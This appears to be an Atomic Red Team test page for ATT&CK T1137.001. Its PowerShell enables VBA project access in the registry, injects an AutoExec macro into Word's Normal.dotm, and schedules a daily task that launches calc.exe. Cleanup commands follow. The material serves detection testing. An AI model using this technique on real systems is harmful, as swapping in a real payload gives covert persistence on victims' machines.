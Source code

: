 # T1137.001 - Office Application Startup: Office Template Macros.
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1137/001)
<blockquote>Adversaries may abuse Microsoft Office templates to obtain persistence on a compromised system. Microsoft Office contains templates that are part of common Office applications and are used to customize styles. The base templates within the application are used each time an application starts. (Citation: Microsoft Change Normal Template)

Office Visual Basic for Applications (VBA) macros (Citation: MSDN VBA in Office) can be inserted into the base template and used to execute code when the respective Office application starts in order to obtain persistence. Examples for both Word and Excel have been discovered and published. By default, Word has a Normal.dotm template created that can be modified to include a malicious macro. Excel does not have a template file created by default, but one can be added that will automatically be loaded.(Citation: enigma0x3 normal.dotm)(Citation: Hexacorn Office Template Macros) Shared templates may also be stored and pulled from remote locations.(Citation: GlobalDotName Jun 2019) 

Word Normal.dotm location:<br>
<code>C:\Users\&lt;username&gt;\AppData\Roaming\Microsoft\Templates\Normal.dotm</code>

Excel Personal.xlsb location:<br>
<code>C:\Users\&lt;username&gt;\AppData\Roaming\Microsoft\Excel\XLSTART\PERSONAL.XLSB</code>

Adversaries may also change the location of the base template to point to their own by hijacking the application's search order, e.g. Word 2016 will first look for Normal.dotm under <code>C:\Program Files (x86)\Microsoft Office\root\Office16\\</code>, or by modifying the GlobalDotName registry key. By modifying the GlobalDotName registry key an adversary can specify an arbitrary location, file name, and file extension to use for the template that will be loaded on application startup. To abuse GlobalDotName, adversaries may first need to register the template as a trusted document or place it in a trusted location.(Citation: GlobalDotName Jun 2019) 

An adversary may need to enable macros to execute unrestricted depending on the system or enterprise security policy on use of macros.</blockquote>

## Atomic Tests

- [Atomic Test #1 - Injecting a Macro into the Word Normal.dotm Template for Persistence via PowerShell](#atomic-test-1---injecting-a-macro-into-the-word-normaldotm-template-for-persistence-via-powershell)


<br/>

## Atomic Test #1 - Injecting a Macro into the Word Normal.dotm Template for Persistence via PowerShell
Injects a Macro in the Word default template "Normal.dotm" and makes it execute each time that Word is opened. In this test, the Macro creates a sheduled task to open Calc.exe every evening.

**Supported Platforms:** Windows


**auto_generated_guid:** 940db09e-80b6-4dd0-8d4d-7764f89b47a8






#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin) 


```powershell
# Registry setting to "Trust access to the VBA project object model" in Word
$registryKey = "HKCU:Software\Microsoft\Office\16.0\Word\Security"
$registryValue = "AccessVBOM"
$registryData = "1"
# The path where a flag text file will be created if Registry setting did not already exist or if it was set to 0
$flagPath1 = "$env:USERPROFILE\AppData\Roaming\Microsoft\Templates\T1137-001_Flag1.txt"
$flagPath2 = "$env:USERPROFILE\AppData\Roaming\Microsoft\Templates\T1137-001_Flag2.txt"
# Get the value of the Key/Value pair
$value = (Get-ItemProperty -Path $registryKey -Name $registryValue -ErrorAction SilentlyContinue).$registryValue
# Logical operation to: if the value of the key/value is 1, do nothing - 
# if the value is 0, change it to 1 and create flag1 - 
# if it doesn't exist, create the value and flag2
if ($value -eq "1") 
{
  Write-Host "The registry value '$registryValue' already exists with the required setting."
}   
  elseif ($value -eq "0") 
{
  Write-Host "The registry value was set to 0, temporarily changing to 1."
  New-ItemProperty -Path $registryKey -Name $registryValue -Value $registryData -PropertyType DWORD -Force | Out-Null
  echo "flag1" > $flagPath1
} 
  else 
{
  Write-Host "The registry value '$registryValue' does not exist, temporarily creating it."
  New-ItemProperty -Path $registryKey -Name $registryValue -Value $registryData -PropertyType DWORD -Force | Out-Null
  echo "flag2" > $flagPath2
}
Add-Type -AssemblyName Microsoft.Office.Interop.Word
# Define the path of copied normal template for restoral
$copyPath = "$env:USERPROFILE\AppData\Roaming\Microsoft\Templates\Normal1.dotm"
# Define the path to the normal template
$docPath = "$env:USERPROFILE\AppData\Roaming\Microsoft\Templates\Normal.dotm"
# Create copy of orginal template for restoral
Copy-Item -Path $docPath -Destination $copyPath -Force
# VBA code to be insterted as a Macro
# Will create a scheduled task to open the Calculator at 8:04pm daily
$vbaCode = @"
  Sub AutoExec()
  Dim applicationPath As String
  Dim taskName As String
  Dim runTime As String
  Dim schTasksCmd As String
  applicationPath = "C:\Windows\System32\calc.exe"
  taskName = "OpenCalcTask"
  runTime = "20:04"
  schTasksCmd = "schtasks /create /tn """ & taskName & """ /tr """ & applicationPath & """ /sc daily /st " & runTime & " /f"
  Shell "cmd.exe /c " & schTasksCmd, vbNormalFocus
  End Sub
"@
# Create a new instance of Word.Application
$word = New-Object -ComObject Word.Application
# Keep the Word application hidden
$word.Visible = $false
# Open the document
$document = $word.Documents.Open($docPath)
# Access the VBA project of the document
$vbaProject = $document.VBProject
# Add a new module to the VBA project
$newModule = $vbaProject.VBComponents.Add(1) # 1 = vbext_ct_StdModule
# Add the VBA code to the new module
$newModule.CodeModule.AddFromString($vbaCode)
# Run the Macro
$word.run("AutoExec")
# Save and close the document
$document.SaveAs($docPath)
$document.Close()
# Quit Word
$word.Quit()
# Release COM objects
[System.Runtime.InteropServices.Marshal]::ReleaseComObject($document) | Out-Null
[System.Runtime.InteropServices.Marshal]::ReleaseComObject($word) | Out-Null
[System.Runtime.InteropServices.Marshal]::ReleaseComObject($vbaProject) | Out-Null
[System.Runtime.InteropServices.Marshal]::ReleaseComObject($newModule) | Out-Null
```

#### Cleanup Commands:
```powershell
# Registry setting to "Trust access to the VBA project object model" in Word
$registryKey = "HKCU:Software\Microsoft\Office\16.0\Word\Security"
$registryValue = "AccessVBOM"
$registryData1 = "1"
$registryData0 = "0"
# Defines the path each flag file created depending on the original registry state
$flagPath1 = "$env:USERPROFILE\AppData\Roaming\Microsoft\Templates\T1137-001_Flag1.txt"
$flagPath2 = "$env:USERPROFILE\AppData\Roaming\Microsoft\Templates\T1137-001_Flag2.txt"
# Define the path of copied normal template for restoral
$copyPath = "$env:USERPROFILE\AppData\Roaming\Microsoft\Templates\Normal1.dotm"
# Define the path to the normal template
$docPath = "$env:USERPROFILE\AppData\Roaming\Microsoft\Templates\Normal.dotm"
# Delete the scheduled task created by the Macro
schtasks /Delete /TN "OpenCalcTask" /F | Out-Null
#Restore the orginal template if the backup copy exists
if (Test-Path $copyPath)
{
  #Delete the injected template
  Remove-Item -Force $docPath -ErrorAction SilentlyContinue
  # Restore the original template
  Rename-Item -Force -Path $copyPath -NewName $docPath -ErrorAction SilentlyContinue
  Write-Host "The original template has been restored"
}
  else
{
  Write-Host "The original template is present"
}
#Restore the original state of the registry key
if (Test-Path $flagPath1) 
{
  # The value was originally 0, set back to 0
  New-ItemProperty -Path $registryKey -Name $registryValue -Value $registryData0 -PropertyType DWORD -Force | Out-Null
  Remove-Item -Force $flagPath1 -ErrorAction SilentlyContinue
  Write-Host "The original registry state has been restored"
} 
  elseif (Test-Path $flagPath2)
{
  #The value did not previously exist, delete the value
  Remove-ItemProperty -Path $registryKey -Name $registryValue | Out-Null
  Remove-Item -Force $flagPath2 -ErrorAction SilentlyContinue | Out-Null
  Write-Host "The original registry state has been restored"
}
  else 
{
  # The value was already 1, do nothing
  Write-Host "The value $registryValue already existed in $registryKey."
}
```



#### Dependencies:  Run with `powershell`!
##### Description: Microsoft Word must be installed
##### Check Prereq Commands:
```powershell
try {
  New-Object -COMObject "Word.Application" | Out-Null
  Stop-Process -Name "winword"
  exit 0
} catch { exit 1 }
```
##### Get Prereq Commands:
```powershell
Write-Host "You will need to install Microsoft Word manually to meet this requirement"
```




<br/>

